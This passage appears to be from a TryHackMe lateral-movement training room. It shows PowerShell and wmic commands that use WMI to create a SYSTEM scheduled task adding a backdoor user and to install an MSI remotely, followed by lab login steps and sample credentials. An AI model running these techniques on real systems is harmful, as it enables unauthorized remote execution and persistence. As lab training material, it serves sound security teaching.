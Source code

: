 ```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```


## Installing MSI packages throughÂ WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCPÂ (DCERPC)
    - 5985/TCPÂ (WinRMÂ HTTP) or 5986/TCPÂ (WinRM HTTPS)
- **Required Group Memberships:**Â Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then useÂ WMIÂ to attempt to install it for us. The file can be copied in any way available to the attacker.Â Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class throughÂ WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

  

## Let's Get to Work!

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you on Task 1 fromÂ [http://distributor.za.tryhackme.com/creds](http://distributor.za.tryhackme.com/creds). If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 viaÂ SSH:

`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:**Â ZA.TRYHACKME.COM\t1_corine.waters

**Password:**Â Korine.1994
